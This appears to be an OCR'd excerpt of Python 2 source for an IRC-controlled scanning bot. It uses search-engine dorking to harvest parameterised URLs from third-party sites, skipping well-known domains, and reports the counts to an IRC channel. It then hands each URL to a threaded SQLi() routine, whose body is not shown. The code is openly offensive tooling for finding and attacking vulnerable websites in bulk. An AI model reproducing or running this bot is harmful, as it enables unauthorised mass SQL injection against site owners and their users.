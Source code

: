 
def search(inurl, maxc):
  counter = 0
  while counter < int(maxc):
    jar = cookielib.FileCookieJar("cookies")
    query = inurl+'+site:'+site
    results_web = 'http://www.search-results.com/web?q='+query+'&hl=en&page='+repr(counter)+'&src=hmp'
    request_web = urllib2.Request(results_web)
    agent = random.choice(header)
    request_web.add_header('User-Agent', agent)
    opener_web = urllib2.build_opener(urllib2.HTTPCookieProcessor(jar))
    text = opener_web.open(request_web).read()
    stringreg = re.compile('(?<=href=")(.*?)(?=")')
    names = stringreg.findall(text)
    counter += 1
    for name in names:
      if name not in urls:
	if re.search(r'\(',name) or re.search("<", name) or re.search("\A/", name) or re.search("\A(http://)\d", name):
	  pass
	elif re.search("google",name) or re.search("youtube", name) or re.search("phpbuddy", name) or re.search("iranhack",name) or re.search("phpbuilder",name) or re.search("codingforums", name) or re.search("phpfreaks", name) or re.search("%", name) or re.search("facebook", name) or re.search("twitter", name):
	  pass
	else:
	  urls.append(name)
    
  tmplist = []
  finallist = []
  s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Urls collected: ", len(urls)))
  for u in urls:
    try:
      host = u.split("/", 3)
      domain = host[2]
      if domain not in tmplist and "=" in u:
	finallist.append(u)
	tmplist.append(domain)
    except:
      pass
  s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Urls for checking: ", len(finallist)))
  return finallist
    
class injThread(threading.Thread):
        def __init__(self,hosts):
                self.hosts=hosts;self.fcount = 0
                self.check = True
                threading.Thread.__init__(self)

        def run (self):
                urls = list(self.hosts)
                for u in urls:
                        try:
                                if self.check == True:
                                        SQLi(u)
                                else:
                                        break
                        except(KeyboardInterrupt,ValueError):
                                pass
                self.fcount+=1
